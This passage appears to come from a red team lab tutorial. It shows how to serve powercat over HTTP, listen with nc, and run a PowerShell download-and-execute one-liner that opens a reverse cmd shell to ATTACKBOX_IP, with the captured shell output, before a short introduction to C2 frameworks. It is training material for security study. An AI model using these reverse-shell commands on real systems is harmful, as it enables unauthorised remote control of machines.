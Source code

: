 ```shell-session
user@machine$ cd powercat
user@machine$ python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ..
```

On the AttackBox, we need to listen on port 1337 using nc to receive the connection back from the victim.

```shell-session
user@machine$ nc -lvp 1337	    
```

Now, from the victim machine, we download the payload and execute it using PowerShell payload as follows,

```shell-session
C:\Users\thm\Desktop> powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://ATTACKBOX_IP:8080/powercat.ps1');powercat -c ATTACKBOX_IP -p 1337 -e cmd"
```

Now that we have executed the command above, the victim machine downloads the powercat.ps1 payload from our web server (on the AttackBox) and then executes it locally on the target using cmd.exe and sends a connection back to the AttackBox that is listening on port 1337. After a couple of seconds, we should receive the connection call back:

```shell-session
user@machine$ nc -lvp 1337  listening on [any] 1337 ...
10.10.12.53: inverse host lookup failed: Unknown host
connect to [10.8.232.37] from (UNKNOWN) [10.10.12.53] 49804
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Users\thm>
```

# Command And Control - (C2 Or C&C)                             

This task introduces the basic concept of Command and Control (C2) frameworks used in Red team operations.



**What is Command and Control (C2)?**

C2 frameworks are post-exploitation frameworks that allow red teamers to  collaborate and control compromised machines. C2 is considered one of  the most important tools for red teamers during offensive cyber  operations.  C2 frameworks provide fast and straightforward approaches  to:

- Generate various malicious payloads
- Enumerate the compromised machine/networks
- Perform privilege escalation and pivoting
- Lateral movement 
- And many others



Some popular C2 frameworks that we'll briefly highlight are Cobalt Strike, PowerShell  Empire, Metasploit. Most of these frameworks aim to support a convenient environment to share and communicate between red team operations once the initial access is gained to a system.
